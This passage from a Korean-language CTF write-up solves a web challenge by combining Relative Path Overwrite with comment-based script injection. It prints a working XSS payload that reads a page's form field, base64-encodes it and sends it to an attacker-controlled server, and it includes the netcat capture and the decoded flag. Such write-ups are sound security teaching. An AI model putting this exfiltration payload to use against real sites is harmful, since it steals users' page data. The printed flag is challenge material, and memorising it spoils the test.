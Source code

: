 하지만 <,>를 사용할 수 없으므로 다른 방법을 생각해봤으며, 재밌는 부분을 발견하였다.

```html
<!-- 
/* * *  Power By 0xd0ff9 * * * 
--> 
... ...
echo "<!-- P/s: Your grand line is ".htmlentities(urldecode($grandline),ENT_QUOTES)." , this is not Luffy 's grand line -->"; 
... ...
<!-- Infact, ?debug will help you learn expression to build Grand Line ( Ex: !<>+-*/ ) 
```

url에 \*/ ~~~ /\* 을 통해 javascript 코드를 만들 수 있다.

하지만 그러기 위해서는 이를 javascript로써 로드를 해야하는데, 그것을 위해서 RPO를 이용하였다.

```html
<script src="js/jquery.min.js"></script> 
```

script 로드 시 상대주소로 호출을 하므로 index.php가 아닌 index.php/를 요청해주므르써, index.php가 script로써 로드가 된다. 

>  http://178.128.6.184/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/

이 같은 방법을 이용하여 XSS쿼리를 생성해주면 다음과 같다.

```
http://localhost/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/*/window.onload=function(){new%20Image().src=`//[MY SERVER]/`%2bbtoa(document.getElementsByName(`piece`)[0].value)};function%20a()%7B%7D;a(/*/*
```

이제 이를 위 URL을 Bigmom에게 보내주면 다음과 같은 결과를 받으며 플래그를 얻을 수 있다.

```bash
$ nc -lvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from [=] port 80 [tcp/http] accepted (family 2, sport 39946)
GET /WW91IGFyZSBvbiBuZXcgd29ybGQsIGZsYWc6IE1lZVB3bkNURntXZWxjb21lX3RvX05ld19Xb3JsZH0= HTTP/1.1
Host: [MY SERVER]
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/69.0.3477.0 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://localhost/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/*/window.onload=function()%7Bnew%20Image().src=%60//[MY SERVER]/%60%2bbtoa(document.getElementsByName(%60piece%60)[0].value)%7D;function%20a()%7B%7D;a(/*/*
Accept-Encoding: gzip, deflate
$ ipython
Python 2.7.12 (default, Nov 20 2017, 18:23:56)
Type "copyright", "credits" or "license" for more information.

IPython 2.4.1 -- An enhanced Interactive Python.
?         -> Introduction and overview of IPython's features.
%quickref -> Quick reference.
help      -> Python's own help system.
object?   -> Details about 'object', use 'object??' for extra details.

In [1]: 'WW91IGFyZSBvbiBuZXcgd29ybGQsIGZsYWc6IE1lZVB3bkNURntXZWxjb21lX3RvX05ld19Xb3JsZH0='.decode('base64')
Out[1]: 'You are on new world, flag: MeePwnCTF{Welcome_to_New_World}'
```

#### 플래그

FLAG : MeePwnCTF{Welcome_to_New_World}